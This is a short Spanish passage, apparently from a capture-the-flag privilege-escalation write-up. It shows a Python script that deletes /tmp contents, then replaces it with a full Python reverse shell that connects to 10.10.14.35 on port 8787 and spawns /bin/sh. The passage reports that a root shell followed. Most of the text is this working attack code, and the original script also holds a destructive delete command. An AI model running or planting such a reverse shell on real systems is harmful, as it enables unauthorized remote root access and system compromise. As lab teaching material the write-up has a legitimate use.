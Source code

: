 ```python=
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

Vamos a modificarlo para obtener una shell la proxima vez que se ejecute.

```python=
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.35",8787))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Ponemos un listener, esperamos unos segundos y... tenemos la shell como root!.